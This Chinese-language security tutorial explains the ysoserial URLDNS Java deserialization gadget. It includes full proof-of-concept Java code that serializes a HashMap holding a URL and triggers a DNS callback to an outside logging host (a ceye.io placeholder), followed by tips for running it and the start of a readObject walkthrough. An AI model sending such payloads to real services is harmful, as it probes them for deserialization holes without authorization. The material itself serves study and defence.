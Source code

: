 我们先抛开ysoserial，看一下网上的测试代码弄清楚原理，在之后再回过来看ysoserial的实现。

POC测试代码：

```
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        //0x01.生成payload
        //设置一个hashMap
        HashMap&lt;URL, String&gt; hashMap = new HashMap&lt;URL, String&gt;();
        //设置我们可以接受DNS查询的地址
        URL url = new URL("http://xxx.ceye.io");
        //将URL的hashCode字段设置为允许修改
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true);
        //**以下的蜜汁操作是为了不在put中触发URLDNS查询，如果不这么写就会触发两次（之后会解释）**
        //1. 设置url的hashCode字段为0xdeadbeef（随意的值）
        f.set(url, 0xdeadbeef); 
        //2. 将url放入hashMap中，右边参数随便写
        hashMap.put(url, "rmb122");
        //修改url的hashCode字段为-1，为了触发DNS查询（之后会解释）
        f.set(url, -1); 
        //0x02.写入文件模拟网络传输
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
        //0x03.读取文件，进行反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("out.bin"));
        ois.readObject();
    }
}
```

在跑通以上代码，有几个注意点：
1. 1.不能使用ip+端口进行回显，因为此处功能为DNS查询，ip+端口不属于DNS查询。同时在代码底层对于ip的情况做了限制，不会进行DNS查询。
1. 2.最好不要使用burp自带的dns查询，会过一段时间就会变换了，可能会导致坑。这里使用了ceye查看DNSLOG
直接跑测试一波，有回显

[![](./img/201762/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0142d80eb3613fe98e.png)

从测试代码的**0x01部分**payload生成中，我们可以看个大概payload结构，但是也有一些蜜汁细节，回头再来追究，主要确认三个名词`HashMap`、`URL`、`HashCode`。

仔细看一下可以知道最终的payload结构是 一个`HashMap`，里面包含了 一个修改了`HashCode`为-1的`URL`类

那么具体细节我们就直接在`ois.readObject();`这个反序列化语句中去调试分析过程。

我们知道java反序列化的执行入口就是**readObject方法**，而我们最外层的包装就是HashMap，那么这个链自然是从HashMap的readObject开始的（这是JAVA反序列化的基础，不了解的话可以从以往的博客补课）。
